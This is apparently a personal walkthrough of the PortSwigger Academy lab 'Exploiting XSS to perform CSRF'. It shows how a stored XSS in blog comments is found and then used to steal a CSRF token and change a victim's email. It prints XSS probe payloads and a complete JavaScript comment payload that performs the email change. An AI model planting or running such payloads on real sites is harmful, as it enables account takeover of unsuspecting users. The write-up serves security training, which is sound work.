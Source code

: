 # CSRF

# Write-up: Exploiting XSS to perform CSRF @ PortSwigger Academy

![logo](img/logo.png)

This write-up for the lab *Exploiting XSS to perform CSRF* is part of my walk-through series for [PortSwigger's Web Security Academy](https://portswigger.net/web-security).

Learning path: Client-side → Cross-site scripting (XSS)

Lab-Link: <https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf>  
Difficulty: PRACTITIONER  
Python script: [script.py](script.py)  

## Lab description

![lab_description](img/lab_description.png)

## Steps

### Analysis

As usual, the first step is to analyze the functionality of the lab application, in this case, a blog website.

### Find stored XSS

There is one place within the public pages where any visitor can add content: the comment sections under each article (the lab description already states where it is, but it is the only place to store something anyway).

So I try if I am able to insert HTML tags within the fields:

![inserted_html](img/inserted_html.png)

![inserted_html_result](img/inserted_html_result.png)

In the name, the tags are properly encoded. However, my tags within the comment appear to get inserted directly back into the page content.

As a next step I want to find the answer to two questions:

- Can I insert a full script block?
- Can I add a script within an `<img>` tag?
- Are there any relevant characters that are blocked or encoded so that I can not use them in the XSS?

To find these answers, I use the following payload:

```
<script>alert(document.domain)</script>
<img src=x onerror='alert(document.domain)' />
xX';!--"<XSS>=\&{()}<br />Xx
```

![xss_answers](img/xss_answers.png)

When I view the comment, I get both alert boxes and see all characters in the HTML source. I found my place for inserting the stored XSS.

---

### Find out how to change email

Now it is time to use the provided credentials and log in as a `wiener`. The objective of the lab is to change the email of a victim, so I look at how this works:

![email_change](img/email_change.png)

The request is protected by a CSRF token which is stored in a hidden input field of the email change form.

Generally speaking, such a token is the proper way to protect against CSRF attacks and browsers will prevent me from reading content via JavaScript from other origins.

In this case, however, I have an XSS vulnerability at hand where this restriction does not apply as it is running at the very same origin.

---

### Chain the vulnerabilities

To get things working, I need to chain these vulnerabilities together:

- A CSRF attack that sends the request to change the email
- The stored XSS obtains the CSRF token and delivers that CSRF attack

My XSS needs to extract the CSRF token from the `/my-account` page. The most flexible way is to use a regular expression to both parse through the HTML and return the token. 

A quick search brought me to the documentation of [match](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/match) and how to interpret its return value:

![match_docu](img/match_docu.png)

To find the proper expression I turn to [regex101](https://regex101.com/), using the full HTML source of the account page as the test string.

![regex_crafter](img/regex_crafter.png)

With this tool, I find my regex to be `csrf" value="(\w+)"`. Not using the `g` flag ensures that the CSRF token is included in the result of the match as the second item in the return array of `match`

---

### The malicious comment

Now is the time to put everything together. My XSS comment now looks like this:

```html
<script>
var r = new XMLHttpRequest();
r.onload=function() {
    csrf = this.responseText.match(/csrf" value="(\w+)"/)[1];
    var attack = new XMLHttpRequest();
    attack.open("POST", "https://0a74007e040c37b4c0f5013c009600e3.web-security-academy.net/my-account/change-email", true);
    attack.send("email=mail@evil.me&csrf=" + csrf);
}
r.open("GET", "https://0a74007e040c37b4c0f5013c009600e3.web-security-academy.net/my-account", true);
r.withCredential = true;
r.send();
</script>
```

First, it gets the account website. From the result, it extracts the CSRF token and issues another request to the email change functionality. 

![malicious_comment](img/malicious_comment.png)

Right after sending the comment, the lab updates to

![success](img/success.png)

After manually accessing the comment page and going to the account page I can verify that the email was indeed changed by just viewing the comment:

![verify_changed_email](img/verify_changed_email.png)

---

If you found this article helpful, please give it a clap. To get notified of more write-ups, follow me on [GitHub](https://github.com/frank-leitner) or [medium](https://medium.com/@frank.leitner).
